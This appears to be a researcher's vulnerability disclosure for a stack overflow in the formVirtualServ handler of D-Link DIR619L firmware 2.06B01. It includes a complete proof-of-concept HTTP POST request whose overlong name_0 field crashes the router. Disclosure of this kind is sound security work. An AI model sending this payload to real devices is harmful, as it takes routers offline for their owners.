


# D-Link Vulnerability

Vendor:D-Link

Product:DIR619L

Version:2.06B01

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `boa` binary:

In the router's `formVirtualServ` function, `ingress_name_%d、sched_name_%d、name_%d` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `ingress_name_%d、sched_name_%d、name_%d` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `ingress_name_%d、sched_name_%d、name_%d` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `name_%d` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/formVirtualServ HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 6979
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/Advanced/Virtual_Server.asp
Upgrade-Insecure-Requests: 1

settingsChanged=1&curTime=1431077960&index=1&enabled_0=0&used_0=0&name_0=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&default_virtual_servers_0=-1&public_port_0=&public_port_to_0=&sched_name_0=Always&ip_0=&computer_list_ipaddr_select_0=-1&private_port_0=&hidden_private_port_to_0=&protocol_0=257&index=2&enabled_1=0&used_1=0&name_1=&default_virtual_servers_1=-1&public_port_1=&public_port_to_1=&sched_name_1=Always&ip_1=&computer_list_ipaddr_select_1=-1&private_port_1=&hidden_private_port_to_1=&protocol_1=257&index=3&enabled_2=0&used_2=0&name_2=&default_virtual_servers_2=-1&public_port_2=&public_port_to_2=&sched_name_2=Always&ip_2=&computer_list_ipaddr_select_2=-1&private_port_2=&hidden_private_port_to_2=&protocol_2=257&index=4&enabled_3=0&used_3=0&name_3=&default_virtual_servers_3=-1&public_port_3=&public_port_to_3=&sched_name_3=Always&ip_3=&computer_list_ipaddr_select_3=-1&private_port_3=&hidden_private_port_to_3=&protocol_3=257&index=5&enabled_4=0&used_4=0&name_4=&default_virtual_servers_4=-1&public_port_4=&public_port_to_4=&sched_name_4=Always&ip_4=&computer_list_ipaddr_select_4=-1&private_port_4=&hidden_private_port_to_4=&protocol_4=257&index=6&enabled_5=0&used_5=0&name_5=&default_virtual_servers_5=-1&public_port_5=&public_port_to_5=&sched_name_5=Always&ip_5=&computer_list_ipaddr_select_5=-1&private_port_5=&hidden_private_port_to_5=&protocol_5=257&index=7&enabled_6=0&used_6=0&name_6=&default_virtual_servers_6=-1&public_port_6=&public_port_to_6=&sched_name_6=Always&ip_6=&computer_list_ipaddr_select_6=-1&private_port_6=&hidden_private_port_to_6=&protocol_6=257&index=8&enabled_7=0&used_7=0&name_7=&default_virtual_servers_7=-1&public_port_7=&public_port_to_7=&sched_name_7=Always&ip_7=&computer_list_ipaddr_select_7=-1&private_port_7=&hidden_private_port_to_7=&protocol_7=257&index=9&enabled_8=0&used_8=0&name_8=&default_virtual_servers_8=-1&public_port_8=&public_port_to_8=&sched_name_8=Always&ip_8=&computer_list_ipaddr_select_8=-1&private_port_8=&hidden_private_port_to_8=&protocol_8=257&index=10&enabled_9=0&used_9=0&name_9=&default_virtual_servers_9=-1&public_port_9=&public_port_to_9=&sched_name_9=Always&ip_9=&computer_list_ipaddr_select_9=-1&private_port_9=&hidden_private_port_to_9=&protocol_9=257&index=11&enabled_10=0&used_10=0&name_10=&default_virtual_servers_10=-1&public_port_10=&public_port_to_10=&sched_name_10=Always&ip_10=&computer_list_ipaddr_select_10=-1&private_port_10=&hidden_private_port_to_10=&protocol_10=257&index=12&enabled_11=0&used_11=0&name_11=&default_virtual_servers_11=-1&public_port_11=&public_port_to_11=&sched_name_11=Always&ip_11=&computer_list_ipaddr_select_11=-1&private_port_11=&hidden_private_port_to_11=&protocol_11=257&index=13&enabled_12=0&used_12=0&name_12=&default_virtual_servers_12=-1&public_port_12=&public_port_to_12=&sched_name_12=Always&ip_12=&computer_list_ipaddr_select_12=-1&private_port_12=&hidden_private_port_to_12=&protocol_12=257&index=14&enabled_13=0&used_13=0&name_13=&default_virtual_servers_13=-1&public_port_13=&public_port_to_13=&sched_name_13=Always&ip_13=&computer_list_ipaddr_select_13=-1&private_port_13=&hidden_private_port_to_13=&protocol_13=257&index=15&enabled_14=0&used_14=0&name_14=&default_virtual_servers_14=-1&public_port_14=&public_port_to_14=&sched_name_14=Always&ip_14=&computer_list_ipaddr_select_14=-1&private_port_14=&hidden_private_port_to_14=&protocol_14=257&index=16&enabled_15=0&used_15=0&name_15=&default_virtual_servers_15=-1&public_port_15=&public_port_to_15=&sched_name_15=Always&ip_15=&computer_list_ipaddr_select_15=-1&private_port_15=&hidden_private_port_to_15=&protocol_15=257&index=17&enabled_16=0&used_16=0&name_16=&default_virtual_servers_16=-1&public_port_16=&public_port_to_16=&sched_name_16=Always&ip_16=&computer_list_ipaddr_select_16=-1&private_port_16=&hidden_private_port_to_16=&protocol_16=257&index=18&enabled_17=0&used_17=0&name_17=&default_virtual_servers_17=-1&public_port_17=&public_port_to_17=&sched_name_17=Always&ip_17=&computer_list_ipaddr_select_17=-1&private_port_17=&hidden_private_port_to_17=&protocol_17=257&index=19&enabled_18=0&used_18=0&name_18=&default_virtual_servers_18=-1&public_port_18=&public_port_to_18=&sched_name_18=Always&ip_18=&computer_list_ipaddr_select_18=-1&private_port_18=&hidden_private_port_to_18=&protocol_18=257&index=20&enabled_19=0&used_19=0&name_19=&default_virtual_servers_19=-1&public_port_19=&public_port_to_19=&sched_name_19=Always&ip_19=&computer_list_ipaddr_select_19=-1&private_port_19=&hidden_private_port_to_19=&protocol_19=257&index=21&enabled_20=0&used_20=0&name_20=&default_virtual_servers_20=-1&public_port_20=&public_port_to_20=&sched_name_20=Always&ip_20=&computer_list_ipaddr_select_20=-1&private_port_20=&hidden_private_port_to_20=&protocol_20=257&index=22&enabled_21=0&used_21=0&name_21=&default_virtual_servers_21=-1&public_port_21=&public_port_to_21=&sched_name_21=Always&ip_21=&computer_list_ipaddr_select_21=-1&private_port_21=&hidden_private_port_to_21=&protocol_21=257&index=23&enabled_22=0&used_22=0&name_22=&default_virtual_servers_22=-1&public_port_22=&public_port_to_22=&sched_name_22=Always&ip_22=&computer_list_ipaddr_select_22=-1&private_port_22=&hidden_private_port_to_22=&protocol_22=257&index=24&enabled_23=0&used_23=0&name_23=&default_virtual_servers_23=-1&public_port_23=&public_port_to_23=&sched_name_23=Always&ip_23=&computer_list_ipaddr_select_23=-1&private_port_23=&hidden_private_port_to_23=&protocol_23=257
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
